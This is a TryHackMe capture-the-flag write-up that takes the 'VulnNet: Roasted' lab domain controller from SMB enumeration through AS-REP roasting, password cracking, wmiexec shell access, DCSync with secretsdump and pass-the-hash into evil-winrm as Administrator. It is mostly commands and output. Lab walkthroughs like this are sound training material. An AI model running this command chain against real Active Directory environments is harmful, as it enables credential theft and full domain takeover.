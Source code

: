 # Active Directory Room
## VulnNet: Roasted Tryhackme (writeup)



Room: https://tryhackme.com/room/vulnnetroasted

### Tasks

User.txt


System.txt

IP= 10.10.250.145
>## 1- Nmap
 ```
 root@ubuntu:~# nmap -sC -sV -Pn -n -A 10.10.250.145

```
Output

Domain: vulnnet-rst.local

Netbios name: WIN-2BO8M1OE1M1



>## 2-Enumerate SMB

 ```
 root@ubuntu:~# smbclient -L \\\\10.10.250.145
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
	VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing

```
>## Username enumerate
we will use lookupsid.py
```
root@ubuntu:~# lookupsid.py anonymous@10.10.250.145

Password:
[*] Brute forcing SIDs at 10.10.250.145
[*] StringBinding ncacn_np:10.10.250.145[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)

```
create file with above users

>## GetNPUsers
```
root@ubuntu:~# GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -no-pass -dc-ip 10.10.250.145
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:85f4545ec4be97312a8824a26a0b9afa$010e2f219d16ea3af09d2da1d102[HIDEEN]

```
above command used to hash found

>## Crack Hashe
```
root@ubuntu:~# john  --wordlist=/root/THM/rockyou.txt hashe.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])

```
Found password

>## Smbclient

```
root@ubuntu:~# smbclient  -U t-skid \\\\10.10.250.145\\NETLOGON
Enter WORKGROUP\t-skid's password:

```
 ````
 smb: \> ls
  .                                   
  ..                                  
  ResetPassword.vbs                   

		
smb: \> get ResetPassword.vbs
````

````

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs 
smb: \> 
````

````
root@ubuntu:~# cat ResetPassword.vbs 


````
CREDENTIALS are above in above file

>## wmiexec.py

Using credentials found above
```
root@ubuntu:~# wmiexec.py vulnnet-rst.local/a-whitehat@10.10.116.57

```
you got shell and try to find user.txt

```
c:\>dir
c:\>cd Users
c:\Users>dir
c:\Users>cd enterprise-core-vn
c:\Users\enterprise-core-vn>dir
c:\Users\enterprise-core-vn>cd Desktop

c:\Users\enterprise-core-vn\Desktop>dir
c:\Users\enterprise-core-vn\Desktop>cat user.txt
THM{xyz}

````
 ## Privilege

DCSync attack

>## secretsdump.py

```
root@ubuntu:~# secretsdump.py vulnnet-rst.local/a-whitehat:xxxxxxxx@10.10.250.145

Administrator:c25xxxxxxx

```
## try to login with above hash of Admin

```
root@ubuntu:~# evil-winrm -i 10.10.250.145 -u Administrator -H c25xxxxxc3b09d

Evil-WinRM shell v2.3

\Users\Administrator\Documents> cd c:\Users\Administrator\Desktop
c:\Users\Administrator\Desktop> dir
system.txt
C:\Users\Administrator\Desktop> cat system.txt
THM{16xyz}

```
